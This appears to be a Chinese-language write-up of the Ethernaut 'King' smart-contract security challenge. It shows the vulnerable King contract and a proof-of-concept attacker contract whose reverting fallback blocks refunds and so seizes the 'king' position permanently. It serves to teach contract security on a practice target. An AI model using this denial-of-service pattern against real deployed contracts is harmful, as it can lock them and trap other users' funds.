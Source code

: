 ```yaml
---
title: 'ethernaut.openzeppelin合约安全闯关-8'
date: 2022-12-10 19:42:15
tags:
- '区块链技术'
- '智能合约安全'
categories:
- '智能合约安全'










---
```


<!-- more -->

::: tip

目前来看最全面的智能合约安全靶场:+1:

https://ethernaut.openzeppelin.com/ 

浏览器控制台 help()指令

![help](./assets/1670479273112.png)

:::

#### 第九关king  思路与POC

##### 目标: 取得king的位置并想办法不让人抢走

#### 先看代码:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract King {

  address king;
  uint public prize;
  address public owner;

  constructor() payable {
  //部署者为第一个king
    owner = msg.sender;  
    king = msg.sender;
    prize = msg.value;
  }

  receive() external payable {
    require(msg.value >= prize || msg.sender == owner);
    //将最新数量的token转给上一位king
    payable(king).transfer(msg.value);
    //刷新king身份和最新价格
    king = msg.sender;
    prize = msg.value;
  }

  function _king() public view returns (address) {
    return king;
  }
}
```

##### poc思路:point_right:：其实很简单,只需要让转账失败即可 => ( payable(king).transfer(msg.value);) =>revert

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract badKing { 
      
    
     //特定接收转账函数,默认接收转账函数是receive
     function _receive() payable public {

     }
     //转账到King合约 参与游戏
     function getking(address payable addr) public returns(bool){
      
        (bool success,) = addr.call{value: address(this).balance}("");
        return success;
     }
  //但是不让King合约转账到此合约
     fallback() external payable  {
        revert("don't take my site");
    }
}
```

